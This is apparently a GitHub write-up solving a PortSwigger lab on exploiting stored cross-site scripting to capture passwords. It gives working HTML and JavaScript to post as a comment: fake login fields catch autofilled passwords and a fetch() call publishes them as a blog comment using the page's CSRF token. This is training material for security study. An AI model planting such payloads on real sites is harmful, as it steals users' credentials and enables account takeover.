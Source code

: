 ### Exploiting cross-site scripting to capture passwords

Solution to portswigger lab without using burpsuite collaborator.

Javascript code to post as a comment in order to obtain the password of the users that use automatic password managers (administrator). 

The script will post the user's password as a comment.

Introduce your lab id in the url as well as the correct postId of the blog your are in. After, log in using the administrator password.


Code
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) myFunction(this.value)">
<script>
function myFunction(password) {
var data = "csrf=" + document.getElementsByName("csrf")[0].value + "&postId=10&comment=Administrator password: " + password + "&name=test&email=test@test&website"
fetch('https://0a6200b3043ffea2c1eccb65008b008e.web-security-academy.net/post/comment', {
method: 'POST',
mode: 'no-cors',
body: (data)
});
}
</script>
```
